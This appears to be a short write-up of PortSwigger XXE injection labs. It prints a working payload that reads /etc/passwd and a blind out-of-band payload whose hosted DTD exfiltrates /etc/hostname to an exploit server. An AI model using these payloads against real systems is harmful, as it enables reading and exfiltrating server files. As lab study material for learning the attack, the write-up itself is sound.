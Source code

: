 # XML external entity (XXE) injection

Get details at [here](https://portswigger.net/web-security/xxe)

---

[Lab 1](https://portswigger.net/web-security/xxe/lab-exploiting-xxe-to-retrieve-files)

Description of this lab: inject an XML external entity to retrieve the contents of the /etc/passwd file.

Look at any post, it has `check stock` button, try to click, we can see website send a payload like this 

```xml
    <?xml version="1.0" encoding="UTF-8"?><stockCheck><productId>1</productId><storeId>1</storeId></stockCheck>
```

The final payload is

```xml
    <?xml version="1.0" encoding="UTF-8"?>
    <!DOCTYPE test [ <!ENTITY test SYSTEM "file:///etc/passwd">]>
    <stockCheck><productId>&test;</productId><storeId>1</storeId></stockCheck>
```

Send it with repeater, and solved the lab.

[Lab 2]()

[Lab 3]()

[Lab 4]()

[Lab 5](https://portswigger.net/web-security/xxe/blind/lab-xxe-with-out-of-band-exfiltration)

Description of this lab: exfiltrate the contents of the /etc/hostname file but does not display the result

Do the same as lab 1, but we need to send result to exploit server. At exploit server, use this payload like this

```
    <!ENTITY % file SYSTEM "file:///etc/hostname">
    <!ENTITY % stack "<!ENTITY &#x25; exfil SYSTEM 'https://exploit-0aa6003d04b1a1e6c3f1a78501860030.exploit-server.net/?%file;'>">
```

And payload in repeater

```xml
    <?xml version="1.0" encoding="UTF-8"?>
    <!DOCTYPE test [<!ENTITY % loadDtd SYSTEM "https://exploit-0aa6003d04b1a1e6c3f1a78501860030.exploit-server.net/exploit">
    %loadDtd;
    %stack;
    %exfil;]<stockCheck>
    <productId>1</productId><storeId>1</storeId></stockCheck>
```
Send it with repeater, then go to access log at exploit server, we can see request like this `GET /?06da3baa945b HTTP/1.1" 200 "User-Agent: Java/17.0.5`, and result is 06da3baa945b. Go back to home and submit, then solved the lab.

